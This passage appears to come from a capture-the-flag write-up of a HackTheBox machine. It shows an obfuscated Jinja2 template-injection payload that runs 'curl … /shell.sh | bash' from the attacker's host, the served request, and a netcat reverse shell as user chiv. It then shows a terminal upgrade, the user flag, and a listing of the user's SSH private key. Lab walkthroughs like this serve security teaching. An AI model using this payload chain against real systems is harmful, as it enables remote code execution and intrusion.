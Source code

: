     
    
    {% include request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("curl 10\x2e10\x2e14\x2e7/shell\x2esh | bash")["read"]()%}
    

Running it gave the request at the webserver:

    
    
    oxdf@parrot$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.243 - - [17/Jun/2021 14:51:27] "GET /shell.sh HTTP/1.1" 200 -
    

And then a shell:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.243] 33582
    bash: cannot set terminal process group (85021): Inappropriate ioctl for device
    bash: no job control in this shell
    chiv@spider:/var/www/webapp$
    

Standard shell upgrade:

    
    
    chiv@spider:/var/www/webapp$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'   
    chiv@spider:/var/www/webapp$ ^Z             
    [1]+  Stopped                 nc -lnvp 443  
    oxdf@parrot$ stty raw -echo ; fg
    nc -lnvp 443                                
                reset                           
    reset: unknown terminal type unknown        
    Terminal type? screen                       
    chiv@spider:/var/www/webapp$
    

There’s `user.txt`:

    
    
    chiv@spider:~$ cat user.txt
    9ecac790************************
    

There’s also an SSH key for chiv:

    
    
    chiv@spider:~$ ls -l .ssh/
    total 8
    -rw-r--r-- 1 chiv chiv  393 May  4 15:42 authorized_keys
    -rw------- 1 chiv chiv 1679 Apr 24  2020 id_rsa
    

## Shell as root
